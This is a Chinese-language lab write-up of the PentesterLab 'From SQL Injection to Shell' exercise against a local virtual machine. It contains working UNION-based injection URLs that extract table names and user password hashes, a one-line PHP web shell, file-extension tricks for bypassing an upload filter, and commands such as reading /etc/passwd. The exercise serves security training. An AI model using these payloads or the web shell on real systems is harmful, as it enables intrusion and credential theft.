



# 从SQL注入到Shell

## 实验环境

下载ISO镜像并装入虚拟机


设置虚拟机网络端口转发规则


设置宿主机浏览器的代理服务器


使用宿主机浏览器访问服务器


## 实验过程

### 收集信息

通过http响应报文头，可以收集服务器的的相关信息，如PHP版本信息等


### 检测并利用SQL注入

**通过整数检测SQL注入**

http://127.0.0.1:8080/cat.php?id=1 和 http://127.0.0.1:8080/cat.php?id=2-1 返回的页面相同，则说明数据库直接做了减法，而并没有对这种输入做出过滤处理，因此存在SQL注入的可能性

**通过字符串检测SQL注入**

- 使用偶数个```'```来测试，奇数个单引号一般会导致语法错误
- 使用```--```把查询语句的后部注销掉
- 使用```and '1'='1```（不改变查询语句的语义）和```and '1'='0```（改变查询语句的语义），对比发现漏洞

**使用UNION关键字进行SQL注入**

- 利用UNION前后的select语句返回列数必须相同，可以递增查询列数从而检测出数据库该查询语句会查询多少列

  - 如图，当猜测列数为2时，返回列数不相同的报错信息。只有当猜测列数为4时，会返回正确结果

  


- 也可以使用```order by ```语句来检测查询列的数目

  - 如图当排序的数目大于4时，会返回报错信息


**通过SQL注入得到信息**

结合已经得到的查询列数信息，可以通过```@@version```，```current_user()```和```database()```获得数据库版本信息、当前用户信息以及数据库名





此外，还可以获得所有表名、列名以及表和列间的对应关系

http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables


http://127.0.0.1:8080/cat.php?id=3%20UNION%20SELECT%201,concat(table_name,%27:%27,%20column_name),3,4%20FROM%20information_schema.columns



- 从上述信息中我们可以找到users表中有login和password字段，把它们查询出来

http://127.0.0.1:8080/cat.php?id=3%20union%20select%201,concat(login,%27:%27,password),3,4%20from%20users


### 进入管理页面并执行代码

- 将刚刚得到的密码哈希值在线解密，得到密码为```P4ssw0rd```，成功登陆管理员账户


- 找到文件上传界面，上传一个php脚本。把php脚本与网页服务器web目录下的正常文件放在相同路径下，可以在浏览器端实现命令执行环境，从而控制服务器


```php
<?php
  system($_GET['cmd']);
  ?>```

- 但是网站返回提示信息，禁止上传PHP文件。可以有如下两种方式绕过PHP过滤

  - ```.php3```后缀可以绕过对```.php```后缀的过滤
  - ```.php.test```也可以绕过```.php```过滤，Apache服务器会依然把它当做PHP文件


- 上传成功后，点开该文件，查看该页面源代码，可以看到php文件在服务器上的存储路径




- 访问该路径并通过cmd参数，可以获取服务器的大量信息，并执行代码
  - 如通过```ls```得到当前目录或上级目录信息
  - 通过```cat /etc/passwd```得到系统用户列表
  - 通过```cat /etc/hosts```等指令可以查看主机信息，更改网络配置，甚至重启系统


## 参考链接  
  - [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
